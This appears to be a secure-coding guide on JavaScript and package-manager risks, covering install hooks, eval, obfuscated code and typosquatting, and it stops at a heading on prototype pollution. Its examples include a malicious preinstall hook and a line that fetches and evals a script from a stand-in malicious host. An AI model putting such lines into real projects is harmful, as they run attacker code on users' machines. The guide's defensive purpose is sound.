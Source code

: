 ### Post and Pre-Install Scripts

- **Description:** These scripts run automatically when installing a package (`npm install`, `yarn install`, `pip install`). Malicious packages can execute harmful code on your machine even before you run your project.

- **Example:**
  ```json
  {
    "scripts": {
      "preinstall": "node malicious-script.js"
    }
  }
  ```

- **How to Stay Safe:** Always check the `package.json` file before installing a package. Use `npm install --ignore-scripts` if unsure.

### eval() and Dynamic Code Execution

- **Description:** The `eval` function and similar methods (`new Function()`, `setTimeout('code')`, `setInterval('code')`) execute arbitrary code, which attackers can exploit to steal credentials, inject malicious scripts, or run unauthorized commands.

- **Example:**
  ```javascript
  eval(fetch('https://malicious-site.com/steal-info.js'));
  ```

- **How to Stay Safe:** Avoid using `eval()` or any dynamically executed code. Use safer alternatives like `JSON.parse()` or secure function calls.

### Obfuscated or Minified Code

- **Description:** Attackers often hide malicious payloads in minified or obfuscated code, making it harder to detect harmful behavior.

- **Example:**
  ```javascript
  var a = "\x6c\x6f\x63\x61\x74\x69\x6f\x6e";
  ```

- **How to Stay Safe:** If you encounter obfuscated code, use tools like `js-beautify` or `deobfuscator.io` to inspect it before execution.

### Supply Chain Attacks & Dependency Hijacking

- **Description:** Attackers publish malicious packages with names similar to popular ones (typosquatting) or inject backdoors into compromised packages.

- **How to Stay Safe:**
  - Check package authors and download counts before installing.
  - Use `npm audit`, `yarn audit`, or `pip audit` to check for vulnerabilities.
  - Avoid blindly trusting new or recently updated packages.

### Unsafe Regular Expressions & Prototype Pollution
